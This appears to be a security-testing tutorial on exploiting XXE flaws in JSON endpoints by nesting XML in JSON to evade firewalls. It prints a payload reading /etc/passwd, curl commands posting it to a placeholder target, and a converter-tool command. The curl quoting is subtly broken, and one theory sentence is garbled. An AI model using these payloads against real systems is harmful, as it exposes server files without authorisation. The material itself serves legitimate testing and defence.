 ```yaml
---
title: 'Exploiting XXE on JSON Endpoints: Bypass Techniques'
description: Learn to exploit XXE vulnerabilities on JSON endpoints using XML-in-JSON
  payloads to bypass WAF protections.
keywords:
- XXE
- JSON endpoints
- WAF bypass
- XML parsing
- security testing
- JSON-to-XML conversion
- vulnerabilities
- cybersecurity
---
```


# XXE on JSON Endpoints

## Context

The goal of this article is to demonstrate how to exploit XML External Entity (XXE) vulnerabilities on endpoints that expect JSON payloads. Through the use of XML-in-JSON payloads and taking advantage of potential web application firewall (WAF) oversight, attackers can trigger XXE vulnerabilities even on JSON endpoints. This article assumes knowledge of XML parsing, JSON structure, Content-Type headers, and the basics of XML External Entity exploitation.

## Theory

### JSON Endpoints and XML Parsing Risks

JSON endpoints are typically API routes designed to receive data in JSON format. However, some backend systems may convert incoming JSON data into XML for further processing. This practice can introduce risks if the conversion is not conducted securely. A common pitfall is when the backend inadvertently becomes vulnerable to XXE attacks. Most WAFs are configured to detect and block attacks utilizing XML payloads, but they often overlook JSON payloads—providing a potential bypass opportunity for attackers.

### JSON-to-XML Conversion and XXE Injection

Converters that transform JSON into XML are common in applications. If these converters are misconfigured or improperly implemented, they could inadvertently introduce vulnerabilities. An attacker can craft a JSON payload such that when it is converted to XML, an external entity reference is included. This can allow the attacker to perform XXE attacks, exploiting the server to access local files or internal network resources. The primary defense of WAF rules is generally focused on circumventing XML signatures, not nested XML within JSON, thus allowing attackers to evade these rules.

### Error Patterns and Detection

Understanding the error patterns caused by incorrect XML parsing can be crucial for detecting vulnerable endpoints. For example, SAX parse errors may occur if a payload is improperly handled or if the XML parsing logic reveals unintentional behaviors. Monitoring error messages or noting any timing differences in response times can further confirm underlying XML processing in these JSON endpoints.

## Practice

### Manual XXE via JSON-to-XML Conversion

- Craft a JSON payload that, when converted, creates an XML structure vulnerable to XXE. The aim is to feed an XML parsing process an external entity.
    
    **Payload:**

    ```json
    {
        "user": "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><root>&xxe;</root>"
    }
    ```

- Send the crafted JSON payload to the target endpoint using a `curl` command.

    ```bash
    curl -X POST https://target/api/endpoint -H 'Content-Type: application/json' -d '{"user":"<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]><root>&xxe;</root>"}'
    ```

- Analyze the response. Look for signs of successful XXE exploitation such as leaked file contents or XML parsing errors, like SAX errors.

### Automated XXE Testing with NetSPI XXE-JSON Converter

- Utilize NetSPI's XXE-JSON-Converter tool to automate the creation of JSON payloads designed to trigger XXE.

    **Command:**

    ```bash
    xxe-json-converter -p 'file:///etc/passwd' -k user
    ```

- Use `curl` to send the generated JSON payload to the target endpoint.

    ```bash
    curl -X POST https://target/api/endpoint -H 'Content-Type: application/json' -d @payload.json
    ```

- Review the response to determine if file contents have been accessed or if there are XML parsing error messages.

## Tools

- **xxe-json-converter**
- **curl** 

By following this guide, a security professional can attempt to exploit XXE vulnerabilities in JSON endpoints, ensuring a deeper understanding of how JSON-to-XML conversion might be utilized by attackers to bypass defenses such as web application firewalls.